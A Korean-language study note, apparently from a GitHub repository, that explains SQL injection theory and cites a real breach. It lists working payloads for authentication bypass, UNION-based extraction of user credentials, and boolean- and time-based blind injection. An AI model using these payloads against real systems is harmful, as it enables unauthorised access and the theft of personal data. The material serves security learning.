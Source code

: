 Burp Suite Intruder 기능 사용법

---

### SQL Injection 공격 - SQL Injection 공격 이해 이론

SQL Injection?

- SQL Query를 처리하는 과정에서 예상치 못한 입력 값에 의해 DBMS 정보 노출, 특정 명령어 실행 등이 발생하는 취약점

- 공격자는 정상적인 값 대신 자신이 원하는 값을 웹에 요청하고, 웹은 데이터베이스에 요청을 한 뒤 결과 값이 웹을 통해 노출되거나 유추할 수 있는 형태로 출력됨

```
      원하는 데이터 요청        데이터 전달
공격자 --------------->  WEB ---------------> 데이터베이스
      <---------------      <---------------
       웹에 결과값 출력          결과 전달
```

**SQL Injection 대표적인 해킹 사례**

- '여기어때' 의 마케팅 관리 웹서버에서 입력 값 검증 미흡으로 인해 관리자 세션 값 탈취 및 개인정보 99만건 유출이 발생함

**SQL Injection을 이용한 인증 우회**

- 인증 처리 프로세스에서 '참' 값을 만들어주면서 정상적인 계정 정보 입력을 우회하게 됨
```
'or 'x'='x
" or "x" = "x
') or ('x'='x
") or ("x"="x
```

**Error Based SQLi 을 이용한 데이터베이스 정보 획득**

- 웹을 통해서 데이터베이스의 원하는 값을 하나씩 가져와 중요정보 획득
```
0' UNION SELECT ALL 1, concat(id,login,password),3,4,concat(email,secret),6,7 from users#
```

**Blind SQLi을 이용한 데이터베이스 정보 추측 및 획득**

- 웹에서 데이터베이스의 에러 정보가 노출되지 않기 때문에 "참"과 "거짓"으로 정보 추측, 획득
```
'or 1=1 and length(database())=5#
```


**SQL Injection - Blind - Boolean-Based**
```
'or 1=1 and substring(database(),1,1)='b'#
'or 1=1 and ascii(substring(database(),1,1))=98#
```

**Time Based SQLi을 이용한 데이터베이스 정보 추측 및 획득**

- sleep() 함수를 이용하여 데이터베이스 스레드 동작 정지 여부를 보고 판단
```
'or 1=1 and sleep(5)#
'or 1=1 and length(database())=5 and sleep(5)#
'or 1=1 and substring(database(),1,1)='b' and sleep(5)#
```

---